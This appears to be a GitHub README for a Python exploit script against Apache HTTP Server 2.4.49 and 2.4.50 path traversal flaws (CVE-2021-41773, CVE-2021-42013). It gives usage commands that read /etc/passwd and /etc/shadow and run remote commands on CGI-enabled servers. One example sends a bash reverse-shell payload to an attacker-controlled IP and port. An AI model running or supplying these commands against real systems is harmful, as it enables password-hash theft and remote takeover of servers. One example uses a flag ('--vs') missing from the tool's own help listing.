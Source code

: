 # Apache Path Traversal Exploit

This exploit is based on a few CVE vulnerabilities affecting Apache 2.4.49. We use URL-encoded characters to access certain files or otherwise restricted resources on the server. Possible RCE on certain systems as well.

## Affected CVEs
1. CVE-2021-41773

    A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

2. CVE-2021-42013

    It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.

## Usage
```bash
$ python3 exploit.py -h

--cgi       Use if Apache server has CGI enabled
--port      Port the Apache server is listening on (Default: 8080)
--path      Path to the file on the Apache server to output (Default: /etc/passwd)
--ip        The website or IP address where the Apache server is hosted (Default: localhost)
-v          Increases verbosity
-s          Special exploit for Apache v2.4.50
--rce       Offers the ability to run Remote Code Execution on CGI-enabled servers
--cmd       Used in conjunction with --rce to run Remote Code Execution on the server (Default: whoami)
```

### Full example against a cgi-enabled server running on localhost:8000
```bash
$ python3 exploit.py --cgi --port 8000 --path "/etc/shadow"
```

### Bonus
Little bonus exploit for Apache v2.4.50 by using `-s` like this (cgi or non-cgi both work):
```bash
$ python3 exploit.py --port 8000 --path "/etc/passwd" -s
```

### More Examples
Made a third section just to show off my personal favorite command for the script against a cgi-enabled server running v2.4.50:
```bash
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi --vs --path "/etc/shadow"
```

NOTE: If running `--rce`, the `-s` option is not required when trying to exploit v2.4.50!

Here is an RCE example (This should work on v2.4.49 or v2.4.50):
```bash
# In this scenario, we can run any command that'll run on Linux - This does actually open a reverse shell, so you'll need netcat or something similar
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi -v --rce --cmd "bash -i >& /dev/tcp/<IP_ADRESS>/<PORT> 0>&1"
```
